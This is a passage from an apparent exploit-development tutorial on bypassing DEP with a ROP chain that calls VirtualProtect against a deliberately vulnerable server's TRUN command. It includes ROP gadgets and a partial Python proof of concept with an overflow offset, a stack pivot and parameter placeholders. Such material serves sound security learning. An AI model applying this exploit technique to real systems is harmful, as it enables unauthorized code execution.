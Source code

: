 Now we have the memory address of the `return` parameter placeholder in ECX, and the memory address of the `lpAddress` parameter placeholder in EDX. Let's take a look at the stack for a second:

<img src="{{ site.url }}{{ site.baseurl }}/images/DEP31.PNG" alt="">

Right now , our shellcode is about 100 hex bytes, or about 256 bytes away, from the current `return` and `lpAddress` placeholders. Remember when earlier we saved the old stack pointer into two registers: EAX and ECX? Recall also, that we have already manipulated the value of ECX to equal the value of the `return` parameter placeholder.

EAX still contains the original stack pointer value. What we need to do, is manipulate EAX to equal the location of our shellcode. Well, that isn't entirely true. Recall in the updated POC, there is a padding variable of 250 NOPs. All we need is EAX to equal an address within those NOPS that come a bit before the shellcode, since the NOPs will slide into the shellcode.

What we need to do, is increase EAX by about 100 bytes, which should be close enough to our shellcode.

___NOTE___: This may change going forward. Depending on how many ROP gadgets we need for the ROP chain, our shellcode may get pushed farther down on the stack. If this happens, EAX would no longer be pointing to an area around our shellcode. Again, if this problem arises, we can just come back and repeat the process of adding to EAX again.

Here is a useful ROP gadget for this:

```
0x6ff7e29a: add eax, 0x00000100 ; pop ebp ; ret  ;  msvcrt.dll
```

We will need two of these instructions. Also, keep in mind - we have a `pop ebp` instruction in this ROP gadget. This chain of ROP gadgets should be laid out like this:

`add eax`

 - `0x41414141` (padding to be popped into EBP)

Here is the updated POC:

```python
import struct
import sys
import os
import socket

# Vulnerable command
command = "TRUN ."

# 2006 byte offset to EIP
crash = "\x41" * 2006

# Stack Pivot (returning to the stack without a jmp/call)
crash += struct.pack('<L', 0x62501022)    # ret essfunc.dll

# Beginning of ROP chain

# Saving ESP into ECX and EAX
rop = struct.pack('<L', 0x77bf58d2)  # 0x77bf58d2: push esp ; pop ecx ; ret  ;  (1 found)
rop += struct.pack('<L', 0x77e4a5e6) # 0x77e4a5e6: mov eax, ecx ; ret  ;  (1 found)

# Jump over parameters
rop += struct.pack('<L', 0x6ff821d5) # 0x6ff821d5: add esp, 0x1C ; ret  ;  (1 found)

# Calling VirtualProtect with parameters
parameters = struct.pack('<L', 0x77e22e15)    # kernel32.VirtualProtect()
parameters += struct.pack('<L', 0x4c4c4c4c)    # return address (address of shellcode, or where to jump after VirtualProtect call. Not officially apart of the "parameters"
parameters += struct.pack('<L', 0x45454545)    # lpAddress
parameters += struct.pack('<L', 0x03030303)    # size of shellcode
parameters += struct.pack('<L', 0x54545454)    # flNewProtect
```